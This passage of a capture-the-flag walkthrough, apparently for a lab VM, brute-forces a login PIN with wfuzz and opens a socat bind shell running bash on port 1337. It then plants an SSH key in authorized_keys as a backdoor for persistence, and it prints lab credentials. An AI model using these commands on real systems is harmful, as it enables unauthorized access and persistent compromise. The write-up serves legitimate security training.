 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553643911179_image.png)


*in a sea of “45 Ch” we have a sole “41 Ch”*


    Username: pinkadmin
    Password: AaPinkSecaAdmin4467

now, lets figure out this pin with wfuzz (while hiding all other responses & 50 threads)

    wfuzz -w crunchpins.txt -c -d "user=pinkadmin&pass=AaPinkSecAdmin4467&pin=FUZZ" --hh 41,45 -t 50 http://192.168.56.118:4480/login.php

![](https://d2mxuefqeaa7sj.cloudfront.net/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553644679549_image.png)


we now own the pin “55849”

Login to web application with all credentials:

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553814570815_image.png)


next we setup a socat listener to connect to port 1337

    socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane

connect to newly open port 1337 via socat

    socat FILE:`tty`,raw,echo=0 TCP:192.168.56.118:1337

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553814841573_image.png)


we are now user: pinkysec

next, let’s move to install our ssh key to keep a backdoor.

Create SSH key for pinksec
Local kali:

    ssh-keygen -t rsa -b 2048

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553815003188_image.png)


cat public key so we can install it on our target:

    cat pinksec.pub

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553815088059_image.png)


target pinksec install ssh key:

    mkdir /home/pinksec/.ssh; echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC7PS9b4hJ9xWrYxXRQfPtV/Djpgc/b2mQ39sfgKCf0p2pvmp9XxJRq+Fsjne+rftfMLsxY7h6jjI+4peMbiCVwtRB84KasjJcBe9JVzjQcNaW5tqzHQToJ8uhP0/97qW7XxebWflXl+qutSzDxZFJbR4CTsISjdBHDVHzHwPQNwJuBrNuwJ4l3h2CSV8R4IBqEjDGUHO3dL18nsWBwXueT9FFUn56DxxpFbawEDbbyrOUNcFq+SIyWWSG9Uzrzv6zPSDdtWCyLLrT3ZsSJg134WqZ2VXV8KMyXUfGTVmDzB6ji7MWWRAVYsHTgprlLCvoPH9ZrcdUi1UWLjYF8Kws9 root@execatwill  > /home/pinksec/.ssh/authorized_keys
